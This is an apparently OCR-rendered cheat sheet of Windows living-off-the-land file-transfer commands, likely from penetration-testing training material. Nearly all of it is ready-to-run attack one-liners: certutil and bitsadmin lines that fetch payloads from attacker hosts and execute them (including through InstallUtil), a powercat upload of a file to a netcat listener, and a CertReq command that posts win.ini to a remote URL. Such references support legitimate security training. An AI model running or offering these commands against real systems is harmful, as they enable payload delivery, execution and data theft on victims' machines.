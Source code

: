 ### Powercat
#### Uploading files
On Kali:
```
sudo nc -lnvp 443 > receiving_powercat.ps1
```
On Windows:
```
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```
### CertReq
#### Downloading files
```
CertReq -Post -config https://example.org/ c:\windows\win.ini output.txt
```
### CertUtil
#### Uploading files
Encode and output to base64 text from our binary:
```
certutil -encode data.txt tmp.b64 && findstr /v /c:- tmp.b64 > data.b64
```
Decode and create our binary file based on our base64 output from above:
```
certutil -decode data.b64 data.txt
```
#### Downloading files
```
certutil.exe -urlcache -split -f http://10.0.0.1:4444/file.exe C:\Windows\Temp\file.exe
```
#### Running a script from remote host
Payload.dll:
```
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
```
Payload.exe:
```
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
```
### BITSAdmin
#### Downloading files
```
bitsadmin /transfer myDownloadJob /download /priority normal http://10.0.0.1:4444/file.exe C:\Windows\Temp\file.exe
```
```
bitsadmin /create 1 bitsadmin /addfile 1 https://live.sysinternals.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```
#### Running a script from remote host
```
bitsadmin /transfer mydownloadjob /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe
```
### Desktopimgdownldr
#### Downloading files
```
set "SYSTEMROOT=C:\Windows\Temp" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://domain.com:8080/file.ext /eventName:desktopimgdownldr
```